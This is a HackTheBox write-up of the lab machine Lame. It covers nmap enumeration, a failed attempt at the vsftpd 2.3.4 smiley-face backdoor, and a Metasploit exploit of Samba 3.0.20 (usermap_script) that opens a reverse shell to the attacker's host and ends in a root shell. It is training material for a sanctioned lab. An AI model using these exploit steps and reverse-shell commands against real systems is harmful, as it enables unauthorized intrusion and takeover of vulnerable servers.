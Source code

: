 ```yaml
---
layout: post
title: HackTheBox | Lame
date: 2018-07-03 23:00:00 +0000
categories:
- hackthebox
description: Solutions for HackTheBox Lame
image:
  feature: assets/img/d46717d4d7d8c5948db7ca49cd3d2fbf.png
  credit: 
  creditlink: 
---
```

This writeup details attacking the machine Lame (10.10.10.3) on [HackTheBox](www.hackthebox.eu).

Enumeration
-----------
First things first, as with any machine, we want to nmap scan it to see what ports are open.  
```bash
root@kali:~/reboare.github.io/_posts# nmap -p- 10.10.10.3 -T4

Nmap scan report for 10.10.10.3
Host is up (0.062s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

Nmap done: 1 IP address (1 host up) scanned in 437.65 seconds
```
So we have a bunch of ports open, the next step is to perform a more in depth scan on these ports.

```bash
root@kali:~/reboare.github.io/_posts# nmap -p 21,22,139,445,3632 10.10.10.3 -A

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-08-21 12:21 BST
Nmap scan report for 10.10.10.3
Host is up (0.17s latency).
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Linux 2.6.23 (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.27 - 2.6.28 (92%), Linux 2.6.8 - 2.6.30 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP
|_  System time: 2017-08-18T03:23:21-04:00

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   168.26 ms 10.10.14.1
2   251.04 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.89 seconds
```
THe first target that looks like it would be exploitable is the ftp server version, vsftpd 2.3.4.  For those who don't know, this version of vsftpd was compromised, not via the source code, but by an exploitable version being uploaded to the master site.  Exploiting it is as simple as sending a smiley-face ':)' as the username credential.  This will then open a shell on port 6200.  

However, a quick and dirty test reveals that this method doesn't work.
```bash
root@kali:~# ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:root): :)
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> exit
221 Goodbye.
root@kali:~# nmap -p 6200 10.10.10.3

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-08-21 12:26 BST
Nmap scan report for 10.10.10.3
Host is up (0.037s latency).
PORT     STATE    SERVICE
6200/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 0.83 seconds
```
Since there was no fix to the source code, fixing this vulnerability didn't necessitate a version change.  This was just placed as a red-herring.

So with that failing lets attempt to attack the samba service.  We can see from the namp scan that it's running version 3.0.20, so lets check metasploit to see if anything pops up.

```bash
msf > search samba
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                            Disclosure Date  Rank       Description
   ----                                            ---------------  ----       -----------
   auxiliary/admin/smb/samba_symlink_traversal                      normal     Samba Symlink Directory Traversal
   auxiliary/dos/samba/lsa_addprivs_heap                            normal     Samba lsa_io_privilege_set Heap Overflow
   auxiliary/dos/samba/lsa_transnames_heap                          normal     Samba lsa_io_trans_names Heap Overflow
   auxiliary/dos/samba/read_nttrans_ea_list                         normal     Samba read_nttrans_ea_list Integer Overflow
   auxiliary/scanner/rsync/modules_list                             normal     List Rsync Modules
   auxiliary/scanner/smb/smb_uninit_cred                            normal     Samba _netr_ServerPasswordSet Uninitialized Credential State
   exploit/freebsd/samba/trans2open                2003-04-07       great      Samba trans2open Overflow (*BSD x86)
   exploit/linux/samba/chain_reply                 2010-06-16       good       Samba chain_reply Memory Corruption (Linux x86)
   exploit/linux/samba/lsa_transnames_heap         2007-05-14       good       Samba lsa_io_trans_names Heap Overflow
   exploit/linux/samba/setinfopolicy_heap          2012-04-10       normal     Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   exploit/linux/samba/trans2open                  2003-04-07       great      Samba trans2open Overflow (Linux x86)
   exploit/multi/samba/nttrans                     2003-04-07       average    Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   exploit/multi/samba/usermap_script              2007-05-14       excellent  Samba "username map script" Command Execution
   exploit/osx/samba/lsa_transnames_heap           2007-05-14       average    Samba lsa_io_trans_names Heap Overflow
   exploit/osx/samba/trans2open                    2003-04-07       great      Samba trans2open Overflow (Mac OS X PPC)
   exploit/solaris/samba/lsa_transnames_heap       2007-05-14       average    Samba lsa_io_trans_names Heap Overflow
   exploit/solaris/samba/trans2open                2003-04-07       great      Samba trans2open Overflow (Solaris SPARC)
   exploit/unix/misc/distcc_exec                   2002-02-01       excellent  DistCC Daemon Command Execution
   exploit/unix/webapp/citrix_access_gateway_exec  2010-12-21       excellent  Citrix Access Gateway Command Execution
   exploit/windows/fileformat/ms14_060_sandworm    2014-10-14       excellent  MS14-060 Microsoft Windows OLE Package Manager Code Execution
   exploit/windows/http/sambar6_search_results     2003-06-21       normal     Sambar 6 Search Results Buffer Overflow
   exploit/windows/license/calicclnt_getconfig     2005-03-02       average    Computer Associates License Client GETCONFIG Overflow
   exploit/windows/smb/group_policy_startup        2015-01-26       manual     Group Policy Script Execution From Shared Resource
   post/linux/gather/enum_configs                                   normal     Linux Gather Configurations
```
Quite a few exploits for samba, but doing some research reveals that samba/usermap_script targets versions `3.0.20 through 3.0.25rc3`.  So lets try that one.
```bash
msf > use exploit/multi/samba/usermap_script 
msf exploit(usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf exploit(usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf exploit(usermap_script) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf exploit(usermap_script) > set LHOST 10.10.13.126
LHOST => 10.10.13.126

msf exploit(usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.13.126:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo g2J1cK9h6SBFE0RL;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "g2J1cK9h6SBFE0RL\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.13.126:4444 -> 10.10.10.3:50926) at 2017-05-17 17:31:24 +0100
```
It works and we have a root shell.
